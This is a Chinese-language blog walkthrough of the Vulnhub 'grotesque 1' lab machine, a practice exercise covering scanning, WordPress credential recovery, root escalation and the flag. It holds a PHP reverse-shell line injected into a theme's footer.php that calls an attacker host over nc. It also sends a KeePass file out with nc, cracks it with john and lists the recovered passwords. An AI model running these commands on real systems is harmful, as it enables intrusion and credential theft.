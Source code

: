 ```yaml
---
layout: post
title: grotesque 1
subtitle: grotesque 1
date: 2023-07-16 15:40
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 环境搭建

[Vuluhub 靶场 IP 问题 - Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)

## 2. 信息搜集

搜索 IP，发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/3k7JpE.png)

扫描端口发现 66 和 80 两个 http 端口

```shell
namp -T4 -A -p- 192.168.163.134
```

![image.png](https://img.ghostliner.top/BRzNRF.png)

扫描目录，发现 80 端口无内容，扫描 66 端口

```shell
dirsearch -u http://192.168.163.134:66/
```

![image.png](https://img.ghostliner.top/5eiLQC.png)

访问`changelog.txt`确定`vvmlist`版本为 `16.01.2021`

![image.png](https://img.ghostliner.top/ROdua0.png)

whatweb 扫描网站

![image.png](https://img.ghostliner.top/jDnHct.png)

主页发现链接可以下载项目压缩包： <http://192.168.163.134:66/vvmlist.zip>

解压后打开

发现`sshpasswd.png`图片获取疑似用户名：`mossad`

网站主页发现特殊字符串，分析是`Brainfuck`代码

![image.png](https://img.ghostliner.top/r3vmo9.png)

解码得到 `/sshpasswd.png`

查看项目文件，在 `sense.md` 文件找到提示

![image.png](https://img.ghostliner.top/wrbRpk.png)

访问`/lyricsblog` 发现 wordpress 站点，F12 发现提示，访问到图片

![image.png](https://img.ghostliner.top/5SqyhB.png)

![image.png](https://img.ghostliner.top/5Z2fmd.png)

扫描目录

```shell
dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
```

![image.png](https://img.ghostliner.top/FCr09S.png)

发现后台登录地址 `/lyricsblog/wp-login.php`

### 2.1. 获取用户名密码

wpscan 扫描用户名，获取到 `erdalkomurcu`

```shell
wpscan --url http://192.168.163.134/lyricsblog/ -e u
# 保存
echo "erdalkomurcu" > user.txt
```

浏览站点发现与图片中文字相同的文章

![image.png](https://img.ghostliner.top/5bLaoe.png)

将文章内容保存到 `lyrics.txt` 计算其 MD5 值

![image.png](https://img.ghostliner.top/EUugLE.png)

转换为大写字符

```shell
echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
# BC78C6AB38E114D6135409E44F7CDDA2
```

使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功

## 3. 反弹 shell

浏览页面找到可以注入 PHP 代码的位置

![image.png](https://img.ghostliner.top/HVIuKb.png)

在 footer.php 添加反弹 shell 代码

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
```

![image.png](https://img.ghostliner.top/dPdexr.png)

kali 执行 `nc -lvp 4444` 开启监听，并反弹成功

发现`raphael`用户目录下`user.txt`但无权查看

查找网站配置文件，发现数据库配置

![image.png](https://img.ghostliner.top/IuQs5f.png)

获得用户名：`raphael`，密码：`_double_trouble_`

尝试切换用户，成功

![image.png](https://img.ghostliner.top/A5msB5.png)

查看 `user.txt`文件，发现内容

![image.png](https://img.ghostliner.top/QbUVOK.png)

## 4. root 提权

查看隐藏文件，发现 `.chadroot.kdbx`文件

![image.png](https://img.ghostliner.top/iPoLP3.png)

`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名

传输到 kali 进行解密

```shell
# dc-9
nc 192.168.163.132 5555 < .chadroot.kdbx
# kali
nc -lvp 5555 >keepass
# 解密
keepass2john keepass | tee pass.txt
john pass.txt
```

![image.png](https://img.ghostliner.top/sl1TsA.png)

![image.png](https://img.ghostliner.top/zcN2b1.png)

解密得到 `chatter`

打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到 4 组 root 密码

![image.png](https://img.ghostliner.top/hf1unI.png)

```
.:.yarak.:.
secretservice
.:.subjective.:.
rockyou.txt
```

使用 `.:.subjective.:.` 登录成功

![image.png](https://img.ghostliner.top/SXIzFt.png)

## 5. 获取 flag

![image.png](https://img.ghostliner.top/jFA97D.png)
